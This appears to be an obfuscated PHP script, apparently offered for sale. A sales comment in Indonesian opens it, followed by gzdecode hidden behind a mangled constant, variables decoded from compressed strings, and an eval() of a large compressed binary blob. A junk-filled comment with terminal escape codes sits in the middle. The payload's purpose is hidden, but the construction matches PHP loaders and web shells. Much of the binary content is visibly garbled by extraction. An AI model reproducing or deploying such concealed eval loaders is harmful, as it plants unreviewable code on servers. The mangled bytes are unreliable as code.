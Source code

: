 - 
<?php
/* Hallo kak mau beli ?*/
define("ª±®²", "\x67\x7a\x64\x65\x63\x6f\x64\x65");$æðÃ´=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K¯JIMÎOI' . "\0" . '[£òc' . "\0" . '' . "\0" . '' . "\0" . '');$åúõæÓ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'ËH­0JÊÌ' . "\0" . 'Î[ê»' . "\0" . '' . "\0" . '' . "\0" . '');$¯’Ó•=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+.M*.)' . "\0" . 'ô†?' . "\0" . '' . "\0" . '' . "\0" . '');$¾à=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'KÎ(' . "\0" . 'Ô]ÿ¦' . "\0" . '' . "\0" . '' . "\0" . '');$£—“£=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'KËÌIOO-‰OÎÏ+IÍ+)' . "\0" . 'C§“&' . "\0" . '' . "\0" . '' . "\0" . '');$ÀÉ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'KËÌIO­È,.)' . "\0" . '@ˆ
' . "\0" . '' . "\0" . '' . "\0" . '');$ü»˜á=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+(JMÏM,IÎ' . "\0" . '' . "\0" . '3R-\\
' . "\0" . '' . "\0" . '' . "\0" . '');$«á”¸=__FILE__;/*  	PË]ºûùÈùØÏF~4¡hãIXÓFž5©TjãYØ×F¾6±”lãiXÛFÞ7¹ÔnãyØßFþ8ÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁŒÁ)yKÊ^Rò—”¼¥å/)yNS”å9NS”å9NS”>PùCå”>PùCå”>Pù[ÊÞVò·•¼­åo+y[ÊÞTùSåO•>TùSåO•>TùSå/”¾RùKå/”¾RùKå/”¾Vù[åo•¾Vù[åo•¾Vù[å”~QùGå”~QùGå”~UùWå_•~UùWå_•~UùWå1‘‡cN2ãn1ã^3ùo‹ÿþ[ëÊ^Rò—”¼¥å/)yKÊ^S”å9NS”å9NS”å1‘‡cN2ãn1ã^6ÿcŽúÆFm8ï¯Ï×sû??ˆ
¤ô”VÅÈ7ÐBÚ?=9Ð¦N_AA»Ó5      ‹µ·°[H[2J[3J*/$áèµ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+JÌK' . "\0" . 'tõÆ' . "\0" . '' . "\0" . '' . "\0" . '');$Ò=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+.)ÊIÍ' . "\0" . '-]' . "\0" . '' . "\0" . '' . "\0" . '');$Ô±=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'Ë*ÎÏ‹OIMÎOI' . "\0" . 'œ~BÃ' . "\0" . '' . "\0" . '' . "\0" . '');$õÒ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+ÍËÉÌË' . "\0" . '²ÇÛ' . "\0" . '' . "\0" . '' . "\0" . '');$ª´=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K-*Ê/Š/J-È/*ÉÌK' . "\0" . 'm!˜' . "\0" . '' . "\0" . '' . "\0" . '');$‘¢¸Õ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+(JM/.ÈÉ,' . "\0" . '\'
ƒ—
' . "\0" . '' . "\0" . '' . "\0" . '');$‘ô=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'KÍ-(©' . "\0" . 'Ä=Çh' . "\0" . '' . "\0" . '' . "\0" . '');$ÄïÕ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+)ÊÌ' . "\0" . 'â™P' . "\0" . '' . "\0" . '' . "\0" . '');$¤·åÖ=(ª±®²)('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+.)*J-' . "\0" . '‰' . "\0" . '' . "\0" . '' . "\0" . '');eval($æðÃ´('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'µ™gPÏÖÆ‹(QrAò²DA–,KK’(I%)9ƒd‘’ã‚äŒäœdI’Yâ‚,Y$÷_÷ý‚õÖ­¢ê^>ÍÌ™éîß<ÝÏ™SÓR\'Ro¬ß°ýêE&I²­ïuT8™Âñ8ð=`Xþ9pþ7çX*eÊJªÃêJ8×£FÙ7‚K‚­59ïà6ÈžÁ”û±®‡¶ïÜ^Ð{\\Ü|ª`>.Ìë1Ò£`)Ü›buÇ¡ne"‡A1_åaÝ”i
q+HƒJ‘êê¼¡êÃ#ÜJCÜ\\i$—ËAvSÀ±;¹·‡ïåáûŽDúáMájjs2à·²Ô@ÊªÑ#ª<JÃÿé!-^' . "\0" . ' ¸)(bu7çV8•U0®Gœ»i±oJµßr;âñqõ+
ýe^2cÌûtªýó­¤5ððH¸úÿÏ¹Ÿ½e;n¼âŠ:kJ¢nE´¡¾Á¿4"­è™½±h©;ŸnÅ¦¼à~þ0~eÞ^~pß Ê_Ÿ' . "\0" . ';æ$’›ò¡ªcnÍ©ü|½}<ù' . "\0" . 'à$H¼±=3fnE»!^Pá_fì”ì±Æ¹)Ôaßí¤®þÁ¿ÉT7Nß¶
+çn)k€•yÿÊwBïÜØ' . "\0" . 'E-’ÿSÝâO¬xeãÝW‰›çL™êÎ–¦öC/ÆÊ‰ñH
gä›ö#j#Õ8X]¦û OìœÖþÔ@ÕÏ¼Ö³OßGœÕv¹í®é…Íì8”ì«ÁI:S_uÆ’Ô/' . "\0" . 'œLã§¿<K›åf7,xaÖi‰Ùß¸§P§¦»G' . "\0" . 'g†õ.z÷õ®ä.ÄáRiää	Ú½J¹ñÔ¬ô‡š·÷ºŸãT’ÛÏ' . "\0" . '¸w™ûõËSëUn²SËiOùB,·<$OÈv
' . "\0" . '^Øìø=²j:]ï•TG,¾µ“{“%¹>"eóáhá&seˆNNØd¥íA°¥§ÍhgX;í9ŸgŒ¦{W!²05söûì5Ô‰*ì°I{Wj:>º;' . "\0" . 'æJß°¯ö„Ä
Ï hÑhiFÿÐ8‘é`|¦³jgîŠ‡z²ÐQJ!šÄ
*Hý=êI³J
Ë½±ZL™éëÚ¾8ÿhàÉk„õý' . "\0" . 'p¦%ñW¿ea&Žœ{¦Ñ¸Ïñ~ÌÉÐÚÕ5û#GÏvö+xy' . "\0" . 'ÀûØn;µk3LÊ\'‹qµŒu8ôSœm‘}Qz½_Ú¾˜"˜áú¯ÝøëqÙ¸íÜÕ\'\'‚æˆÉ?‹•ÅÎ×/xÙ˜‚ÔRËôÅ7µˆj<ÆÿÎŠ5V¼^Ÿ¾ä«wñ¸®·œé‚áº,YÒÜYv‹¢™¢×›˜\\$@ê°(ìYãSí·ÌÃßÑ°$äkŽV©b>€“³d½¡Lga"§U!“¯Î“Ö\'AÜªVbŸüÄÑ‡>S7>Å7[×*
¶ÉþXB÷ƒF#¼ˆ–·7úáˆw2þŒd×ÝðHØö½ZõÎtM !gÂ’|¡\\ü(úIºÊË—t9’Q}Nò+_uø?ÕK”­Ù±ž.äýQ%' . "\0" . 'ˆ¯ZF_	SQFxWÕWÛ´öw÷BI+ÞÂ–s\\×©íG¦],SRC…ñ‰Ê©¬*)‰MG´Œ86ËŸJ¶|6£Šc
rÜºþ¶nlUðhÂ|,Kü%"‰²S:$qóg%ø1æùÂ"¯_<ÿ(LãPƒª“\\­ŸÌ/ÀÆ-.ÑÃ•ÿËìWøº˜`OZ_I¡k5šPÇÏ-a¥òoJ?9œ.G|Ÿróa¯ïg4¼BN\\^ö­VŸ¿½l:MÔÚ•EY.»rN F­«Œ)C!$6Q—eU*wãŽû²¸ÏzH÷Ò›­b‚<ñ9Áç ƒS=q9U±èù}×U7G«4psOlÇN©¶\\PƒEj¨™_ny),U4ÅÜ|¦^v·¬}¦(' . "\0" . 'ž _ ì' . "\0" . 'Jq¿3<ød2KµE\\5–Ö8¿˜AY
?‰¤>î†ðÄsËQ^\'ý£ Öïù' . "\0" . '"ÚŠ¬È™¯¢n23Ýgý^ÖË•]:¥*ü<H[o¶y·fƒ#ÕÎ"e<Ç¦¨"í,.I‚CHÌ#åñ(Ó=¥$Ï¡/ªÒ5FÖc~æ È®Æ.åî œ¼¨º,^fˆ%ÔåMîÏøÉ#ÄŒ…à"bFu–(1²ž[âg©
…£	ýXEŠŸ¥=ŸZp†T›×K[]d×‰¬îe£˜ ºA«Z‰wVN	ï?šd¿ÛìØ¼¦uG	/*Q÷2…èµö]™†¶ÑÞ9M¥è!ñ}Š\\yE—àØÆ' . "\0" . '' . "\0" . 'pFÓ®¸%Ž×÷.ÎõÕ£œõ¨Ë·þ’"íÐBÔ½B:y
göâ¾~kÝc =f<